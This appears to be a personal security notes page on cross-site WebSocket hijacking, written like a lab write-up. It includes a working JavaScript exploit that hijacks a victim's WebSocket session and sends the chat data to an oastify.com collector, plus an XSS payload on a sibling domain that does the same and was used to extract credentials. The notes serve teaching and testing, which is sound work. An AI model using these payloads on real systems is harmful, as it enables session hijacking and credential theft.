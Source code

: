 ![image](https://beren-obsidian-images.imgix.net/075e8ebed08d65d132e429f615204e0b.webp)
### *Cross-site WebSocket hijacking (CSWH)*
This vulnerable website has a live chat feature that uses WebSockets, which relies on a cookie with the following values: 
```
[
    {
        "domain": "sub.vulnerable-website.com",
        "name": "session",
        "value": "VjAB8RjXPABXbBqi4Cxf2UgKnKzBb0mI",
        "path": "/",
        "secure": true,
        "session": false,
        "sameSite":"none"
        "expirationDate": 1702080719,
        "httpOnly": true,
        "hostOnly": true,
        "firstPartyDomain": "vulnerable-website.com",
    }
]
```

An attacker can craft a script that establishes a WebSocket connection to a vulnerable website from a cross-origin context. They might then trick a victim into running this script by embedding it in a malicious website or a link. When the victim visits this malicious page while logged into the vulnerable site, the script opens a WebSocket connection to the target chat application using the victim's session cookies.

The key point here is that the WebSocket protocol, in its initial handshake request, automatically includes any cookies associated with its domain. If these cookies lack appropriate `SameSite` attributes (or if they are explicitly set to `"SameSite": "None"`), they can be sent in cross-site requests, making them vulnerable to CSRF attacks.
```
<script>
	document.addEventListener("DOMContentLoaded", function() {
		let ws = new WebSocket("wss://vulnerable-website.com/chat");

		ws.onopen = function() {
			console.log("WebSocket connection established");
			ws.send("READY");
		};

		ws.onmessage = function(event) {
			fetch('https://pqjzmw3hry0nyikk2fxos0mkyb46sv.oastify.com', {method: 'POST', mode: 'no-cors', body: event.data});
		};

		ws.onerror = function(error) {
			// Handle any errors that occur
			console.log("WebSocket error: " + error.message);
		};

		ws.onclose = function(event) {
			// WebSocket connection is closed
			console.log("WebSocket connection closed: " + event.code);
		};
	});
</script>
```

Once the WebSocket connection is established, the script sends a command ("READY") to the server. The server responds with chat messages, which are then processed by the attacker’s script. For each received message, the script can make an HTTP request to an external server, such as the Burp Collaborator client. This request can include the contents of the chat message, effectively ex-filtrating data from the victim’s session to the attacker.
### *CSWH via sibling domain with XSS vulnerability*
`vulnerable-website.com` authenticates WebSockets via cookies with the `SameSite=Strict` setting. All WebSocket messages are sent in clear text to the user after authenticating with this cookie. 

After thoroughly auditing `vulnerable-website.com`, I stumbled across a .js file that contained a link to a sibling domain. This sibling domain (`cms-vulnerable-website.com`) contained a login form which was vulnerable to XSS, as it reflected the `username` input on a failed login. 

I crafted an XSS payload which contained a TLD redirect using `document.location` to submit the form with the XSS in the `username` query parameter. This XSS allowed me to embed a WebSocket connection from the sibling domain. This is done on an exploit server and sent to the victim:
```
<script>
const baseUrl = "https://cms-vulnerable-website.com/login?";
const xss = "document.addEventListener('DOMContentLoaded',function(){let e=new WebSocket('wss://vulnerable-website.com/chat');e.onopen=function(){console.log('WebSocket connection established'),e.send('READY')},e.onmessage=function(e){fetch('https://aaomx4mlr72vimknz5jmzqha218swh.oastify.com',{method:'POST',mode:'no-cors',body:e.data})},e.onerror=function(e){console.log('WebSocket error: '+e.message)},e.onclose=function(e){console.log('WebSocket connection closed: '+e.code)}})"
const queryParams = "username=admin<scr"+"ipt>" + encodeURIComponent(xss) + "</scr"+"ipt>&password=kdfjg";

const url = baseUrl + queryParams
document.location = url;
</script>
```

The victim is directed to the login page with the XSS and opens the WebSocket connection. Because `vulnerable-website.com` is using the `Access-Control-Allow-Origin: cms-vulnerable-website.com` header, then we can bypass the `SameSite=Strict` cookie settings for authenticating the WebSocket connection as the user.

This means we can open a WebSocket connection directly on the sibling domain via the XSS vulnerability, and transmit the data received to a Burp Collaborator client or DNS server. This allowed me to see chat logs of the victim, and extract the victim's log in credentials from a private message.
### *Resources*
- https://javascript.info/websocket#:~:text=To%20open%20a%20websocket%20connection,It's%20like%20HTTPS%20for%20websockets
- https://portswigger.net/web-security/websockets/cross-site-websocket-hijacking
- https://book.hacktricks.xyz/pentesting-web/websocket-attacks
### *Tools*
- [enumeration](https://github.com/PalindromeLabs/STEWS) Discover, fingerprint and search for known vulnerabilities in WebSockets automatically.
- [WSSiP](https://github.com/nccgroup/wssip) Provides a user interface to capture, intercept, send custom messages and view all WebSocket and Socket.IO communications between the client and server.
- [wsrepl](https://github.com/doyensec/wsrepl)
- [websocketking](https://websocketking.com/) Communicate with other websites using WebSockets.
